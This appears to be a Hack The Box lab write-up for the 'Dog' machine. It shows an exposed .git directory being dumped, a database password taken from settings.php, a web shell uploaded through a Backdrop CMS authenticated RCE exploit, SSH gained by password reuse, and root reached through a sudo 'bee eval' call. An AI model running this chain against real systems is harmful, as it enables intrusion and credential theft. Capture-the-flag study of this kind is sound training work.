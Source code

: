 # DOG machine - HTB LABS

We have 2 port open
- 22
- 80

<div align="center">
  <img src="https://github.com/10T4/write-up/blob/main/images/Image8.png" alt="dogwebsite">
</div>

on the port 80 we have CMS backdrop with 2 pages:
- Login
- About

About page contains only images & text, so nothing to exploit. But Login contains 2 input (email & password) so we can login after get some creds

if you Fuzz directory we can discover "/.git", so go to upload all source code:

<div align="center">
  <img src="https://github.com/10T4/write-up/blob/main/images/Image9.png" alt="doggit">
</div>


Wget all files on .git:
```
wget -I .git -r http://10.10.11.58/.git
```

get the path of Master Hash:
```
cat HEAD
```

Get .zip of source code:
```
git archive --format zip --output "source.zip" <MASTER HASH>
```

After all it, we can explore some files and in settings.php at the racine we can view 

```
$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
```

After get the password, now go found the user in "cat 10.10.11.58/10.10.11.58/.git/dog/files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json 
```
{
    "_config_name": "update.settings",
    "_config_static": true,
    "update_cron": 1,
    "update_disabled_extensions": 0,
    "update_interval_days": 0,
    "update_url": "",
    "update_not_implemented_url": "https://github.com/backdrop-ops/backdropcms.org/issues/22",
    "update_max_attempts": 2,
    "update_timeout": 30,
    "update_emails": [
        "tiffany@dog.htb"
    ],
    "update_threshold": "all",
    "update_requirement_type": 0,
    "update_status": [],
    "update_projects": []
}
```

In the Website we can get the version of the CMS BackDrop: 1.27.1 and this version contains critical Authenticated RCE:
"https://www.exploit-db.com/exploits/52021"

to launch the RCE go execute with python3 and the code generate file zip with:
- shell.info
- shell.php

Now upload your TAR file in upload page on th website and go in this url:
"http://10.10.11.58/modules/shell/shell.php"

Now in the web shell check the /home/user and we can see this user:
- johncusack

try to connect on ssh with this user and the same password of tiffany email
```
ssh johncusack@10.10.11.58
```

USER.TXT FLAGGED !

For the next step, check sudo permission for the current user:
```
sudo -l
```

we found bee tool with the sudo permission, check all command of bee:

```
sudo bee --help
```

In "Advanced" mode you can see "eval" argument, when eval() module is used often you have RCE vulnerability:
```
sudo /usr/local/bin/bee eval "system('su - root');" --root=/var/www/html
```

and you have root.txt in /root

ROOT.TXT FLAGGED !
